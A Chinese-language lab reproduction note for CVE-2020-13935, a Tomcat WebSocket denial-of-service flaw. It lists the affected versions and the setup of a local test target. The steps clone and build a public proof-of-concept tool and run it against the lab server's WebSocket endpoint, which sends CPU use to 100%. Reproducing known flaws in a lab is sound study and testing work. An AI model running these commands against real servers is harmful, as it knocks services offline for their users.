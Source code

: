 # 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：apache-tomcat-8.5.56

# 0x02 环境搭建
靶机系统：2008_r2_standard_zh-chs  
下载并解压apache-tomcat-8.5.56  
进入目录bin并执行startup.bat，出现下图所示“Server startup in xx ms”通常表示启动成功  
![image](./a.png)  
访问http://172.16.35.133:8080/ 如下图，确认服务启动成功  
![image](./b.png)

# 0x03 利用条件
Tomcat上部署了WebSocket应用，如examples/websocket

# 0x04 影响版本
9.0.0.M1 <= apache tomcat <= 9.0.36
10.0.0-M1 <= apache tomcat <= 10.0.0-M6
8.5.0 <= apache tomcat <= 8.5.56
7.0.27 <= apache tomcat <= 7.0.104

# 0x05 漏洞复现
攻击系统：Kali-Linux-2020.2-vmware-amd64  
执行如下命令：  
git clone https://github.com/RedTeamPentesting/CVE-2020-13935  
cd CVE-2020-13935  
go build  
./tcdos ws://172.16.35.133:8080/examples/websocket/echoProgrammatic  
执行后靶机系统CPU骤升到100%，如下图  
![image](./c.png)

# 0x06 踩坑记录
坑1：  
执行go build后，可能会报如下错误  
![image](./d.png)  
此时需要一些合理上网方式，成功执行后如下图  
![image](./e.png)  

# 0x07 参考链接
无
